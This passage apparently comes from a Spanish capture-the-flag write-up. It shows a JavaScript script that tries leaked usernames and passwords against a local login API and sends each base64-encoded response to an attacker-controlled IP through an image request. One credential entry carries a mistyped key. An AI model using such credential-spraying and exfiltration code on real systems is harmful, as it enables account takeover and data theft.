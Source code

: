 ```json
en la cabecera 'Authorization'. Ejemplo: { \"command\": \"ls -la\", \"token\": \"token_jwt\" }"
      }
   }
}
```

Parece ser la documentación de una API interna que permite la ejecución de comandos. Modificamos nuevamente nuestro archivo `script.js` para intentar validar las credenciales de los usuarios filtrados en `/var/www/html/index.php`.

Además, como internamente se emplea la versión ASCII de los nombres de usuario, añadimos sus nombres transformados a ASCII y también una versión en minúsculas:

```javascript
const users = [
    { nombre: "admin", pas: "dUnAyw92B7qD4OVIqWXd" },
    { nombre: "Łukasz", pas: "dQnwTCpdCUGGqBQXedLd" },
    { nombre: "Þór", pas: "EYNlxMUjTbEDbNWSvwvQ" },
    { nombre: "Ægir", ipasd: "DXwgeMuQBAtCWPPQpJtv" },
    { nombre: "Çetin", pas: "FuLqqEAErWQsmTQQQhsb" },
    { nombre: "José", pas: "FuLqqEAErWQsmTQQQhsb" },
    // Versión en ASCII de los nombres de usuarios.
    { nombre: "admin", pas: "dUnAyw92B7qD4OVIqWXd" },
    { nombre: "Lukasz", pas: "dQnwTCpdCUGGqBQXedLd" },
    { nombre: "Thor", pas: "EYNlxMUjTbEDbNWSvwvQ" },
    { nombre: "AEgir", pas: "DXwgeMuQBAtCWPPQpJtv" },
    { nombre: "Cetin", pas: "FuLqqEAErWQsmTQQQhsb" },
    { nombre: "Jose", pas: "FuLqqEAErWQsmTQQQhsb" },
    // Versión en ASCII de los nombres de usuarios y en minúsculas.
    { nombre: "admin", pas: "dUnAyw92B7qD4OVIqWXd" },
    { nombre: "lukasz", pas: "dQnwTCpdCUGGqBQXedLd" },
    { nombre: "thor", pas: "EYNlxMUjTbEDbNWSvwvQ" },
    { nombre: "aegir", pas: "DXwgeMuQBAtCWPPQpJtv" },
    { nombre: "cetin", pas: "FuLqqEAErWQsmTQQQhsb" },
    { nombre: "jose", pas: "FuLqqEAErWQsmTQQQhsb" }
];

function testUser(user) {
    let xhr = new XMLHttpRequest();
    xhr.open("POST", "http://localhost:3000/login", true);
    xhr.setRequestHeader("Content-Type", "application/json");
    xhr.onload = () => {
        if (xhr.status >= 200)
            new Image().src = `http://192.168.1.181/?user=${user.username}&response=${btoa(xhr.responseText)}`
    }
    xhr.send(JSON.stringify(user));
}

users.forEach(async user => {
    // Envía la petición con el body en JSON
    testUser({
        username: user.nombre,
        password: user.pas
    });
});
```

